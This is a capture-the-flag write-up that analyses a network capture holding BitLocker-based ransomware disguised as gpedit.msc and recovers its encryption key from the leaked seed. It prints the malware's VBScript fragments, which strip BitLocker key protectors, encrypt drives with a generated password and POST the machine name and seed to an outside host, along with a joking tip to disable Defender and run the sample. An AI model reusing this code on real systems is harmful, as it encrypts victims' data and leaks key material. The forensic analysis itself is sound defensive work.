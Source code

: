 # Writeup: Honey, I shrunk the skids

We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.

![Alt text](images/request.PNG)

It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into [This Website](https://tomeko.net/online_tools/hex_to_file.php?lang=en) and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters that seems to be more code packed in our original script:
![Alt text](images/text_block.PNG)
By utilizing yet another online tool, [CyberChef](https://gchq.github.io/CyberChef/), we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```


And lo and behold we can find that request in our .pcap file.

![Alt text](images/request_seed.PNG)

Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By copying and running the strRandom function ourselves and initializing the Rnd() function with the seed "43906.83" 


```vbscript
Dim strRandom
Dim characters
Dim numericSeed
Dim i
Dim randomNum
Dim fso
Dim outputFile

' Set your numeric seed directly. For example:
' numericSeed = 43906.83  ' Replace this with your actual numeric seed value
numericSeed = "43906.83"
' Randomize with the numeric seed
Rnd(-1)
Randomize numericSeed

' Define characters to choose from
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
strRandom = ""

' Generate random characters
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))  ' Using Rnd to generate a random number
    strRandom = strRandom & Mid(characters, randomNum + 1, 1)  ' Build the random string
Next

' Show the result in a message box
MsgBox "The random string is: " & strRandom

' Create a FileSystemObject to write the string to a file
Set fso = CreateObject("Scripting.FileSystemObject")

' Create or overwrite the output file
Set outputFile = fso.CreateTextFile("randomString.txt", True)

' Write the random string to the file
outputFile.WriteLine strRandom
outputFile.WriteLine numericSeed

' Close the file
outputFile.Close

' Clean up
Set outputFile = Nothing
Set fso = Nothing


```


we are able to generate the following key:
"_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb"

If we decrypt the volume we can access it and get our flag: EPT{it_works_the_machine_works!}


